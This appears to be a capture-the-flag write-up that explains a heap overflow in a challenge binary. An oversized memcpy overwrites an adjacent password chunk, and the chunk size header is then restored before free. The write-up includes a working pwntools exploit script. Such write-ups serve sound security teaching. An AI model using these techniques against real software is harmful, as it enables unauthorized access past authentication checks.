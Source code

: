 The function takes up to 1280 bytes as input, and copies it into the buffer passed as an argument, which from the `main` function we can see is our `input_1` buffer. But the `input_1` buffer is **only** 0x10 bytes in size. This means that the `memcpy` will make us overwrite bytes outside the 0x10 allocated bytes on the heap.

If we inspect the heap with gdb we can see its layout
![Heap layout](normal_heap.png)

I input some 'A's which are the 0x41 values. The allocated heap chunk for my input is marked in purple. The green chunk right after my input-chunk is the `password` allocated chunk, which consists of random bytes we have to guess. What happens if we write more bytes than allocated, because of the bug in the `input` function?

![Heap overflow](heap_chunks.png)

We overwrite the `password`! This means that we can decide ourselves what the password should be. This makes it so we can bypass the `strncmp` check.

We see that the offset until we overwrite the size header of the password-chunk is 0x18 (0x10 bytes for our allocated input + 8 bytes for heap chunk alignment) After the chunk size-header we have the 0x20 bytes of random bytes which sets the password.

Our payload therefore becomes
```python
offset = b"A"*0x18 # Fill allocated chunk up to next chunks size field
payload = offset
payload += b"A"*8  # Overwrite chunk size
payload += b"D" * 0x20  # Overwrite the random password
```
{: .nolineno }

We can verify it by looking at the heap chunks after the overflow
![Overflow](overflow.png)

We can see that we overwrote the size of the password-chunk with 8 A's (the first 8 green bytes in the upper left) and the password itself with 0x20 D's.

While we with this method can set the password to what we want, we overwrite the chunk size-header, and since the chunk later is freed we need the size of the chunk to be valid, meaning that the size cannot be `0x4141414141414141`. Luckily we can see that after the `strncmp` the `main` function calls `gets`, reading into our allocated heap chunk again. We can exploit this by *resetting* the chunk header we overwrote with A's to 0x31, making it a valid chunk again and making the program continue to the next iteration of the while-loop.

Our full exploit payload therefore becomes
```python
offset = b"A"*0x18 # Offset to password-chunk's size header
io = start()
payload = offset
payload += b"A"*8  # Overwrite password chunk size header
payload += b"D" * 0x20  # Overwrite the random password with our new password

cleanup = offset
cleanup += pack(0x31) # Set chunk size back to valid size before free() call

for i in range(100):
    io.recvuntil(b"OVERFLOWS!!):")
    io.sendline(payload)                # Overflow and set new password
    io.sendafter(b"secret?", b"D"*0x20) # "Guess" our set password
    io.sendlineafter(b"want:", cleanup) # Cleanup overwritten chunk
io.interactive()
```
{: .nolineno }
